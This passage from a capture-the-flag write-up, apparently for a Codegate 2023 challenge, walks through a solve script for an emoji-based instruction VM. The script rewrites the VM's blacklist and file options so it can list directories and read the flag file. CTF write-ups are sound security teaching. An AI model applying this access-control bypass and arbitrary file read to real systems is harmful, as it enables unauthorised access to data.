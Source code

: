
So the plan is simple, use instruction "😀" to setup the stack, then use instruction "😂" to setup the blacklist and file_options, and execute "read_text" on the flag file to get the flag on the stack. Then finally, use the "✓" instruction to print the flag.  


But how can we know where is the flag?  
We can use the "glob" function on a file path to essentially do a "ls"  

With this, we can find that the flag file path is actually "/home/ctf/codegate2023-read-plz"
We can then just read it using the method said above

solve.py:
```python
import json
import base64

instrs = []

def makeInstr(opcode,operands):
    instrs.append({"opcode": opcode,"operands": operands})

# setup blacklist and file_options
makeInstr("😀",[[]])
makeInstr("😂",["blacklist"])
makeInstr("😀",[["glob","read_text"]])
makeInstr("😂",["file_options"])

# use glob to list directory contents, then read flag
makeInstr("😀",[1])
makeInstr("😀",["/home/ctf/codegate2023-read-plz"])

makeInstr("🧠",[])

makeInstr("✓",[])

print(base64.b64encode(json.dumps(instrs).encode()).decode())
```
